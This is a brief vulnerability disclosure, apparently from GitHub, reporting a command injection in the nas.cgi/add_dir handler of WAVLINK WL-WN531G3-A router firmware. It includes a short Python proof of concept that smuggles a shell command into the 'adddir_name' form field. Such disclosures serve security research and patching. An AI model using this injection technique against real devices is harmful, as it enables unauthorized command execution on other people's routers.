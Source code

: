 # command injection

## WAVLINK_WL_WN531G3_A

version: 20220801

## Description:

There is a command injection in nas.cgi/add_dir

## Source:

you may download it from : 

[WL-WN531G3-A - WAVLINK See the world! Powered by Wavlink](https://www.wavlink.com/en_us/firmware/details/c85755a050.html)

## Analyse:

![](8.png)

get value from adddir_name, then call do_system, cause command injection

## POC

```
url = "http://192.168.0.1/cgi-bin/nas.cgi"
payload = ';ls > /tmp/1  ' + '\n'

r = requests.post(url, data={ 'page':'adddir', 'adddir_name': + payload})
```
